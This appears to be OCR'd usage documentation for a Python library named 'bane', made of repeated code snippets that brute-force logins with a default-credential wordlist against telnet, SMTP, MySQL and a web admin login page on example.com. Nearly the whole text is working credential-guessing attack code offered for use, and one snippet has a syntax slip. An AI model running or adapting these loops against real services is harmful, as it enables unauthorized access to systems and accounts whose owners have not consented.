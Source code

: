 >>>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br> user=x.split(":")[0]
<br> pwd=x.split(":")[1]
<br> print'"[*]Trying:",user,pwd
<br> if bane.telnet1("example.com",username=user,password=pwd)==True:
<br>  print'[+]Found'
<br>  break
<br> else:
<br>  print'[-]Failed'


<br><h4>telnet2:</h4>(using telnetlib module) 

>>>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br> user=x.split(":")[0]
<br> pwd=x.split(":")[1]
<br> print'"[*]Trying:",user,pwd
<br> if bane.telnet2("example.com",username=user,password=pwd)==True:
<br>  print'[+]Found'
<br>  break
<br> else:
<br>  print'[-]Failed'


<br><h3>SMTP:</h3>

>>>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br> user=x.split(":")[0]
<br> pwd=x.split(":")[1]
<br> print'"[*]Trying:",user,pwd
<br> if bane.smtp("example.com",username=user,password=pwd)==True:
<br>  print'[+]Found'
<br>  break
<br> else:
<br>  print'[-]Failed'

<br><h3>MYSQL:</h3>

>>>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br> user=x.split(":")[0]
<br> pwd=x.split(":")[1]
<br> print'"[*]Trying:",user,pwd
<br> if bane.mysql("example.com",username=user,password=pwd)==True:
<br>  print'[+]Found'
<br>  break
<br> else:
<br>  print'[-]Failed'

<br><h3>ADMIN LOGIN:</h3>

>>>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br> user=x.split(":")[0]
<br> pwd=x.split(":")[1]
<br> print'"[*]Trying:",user,pwd
<br> if bane.adminlogin("http://example.com/admin/login.php",{'username':user,'password':pwd)==1:
<br>  print'[+]Found'
<br>  break
<br> else:
<br>  print'[-]Failed'
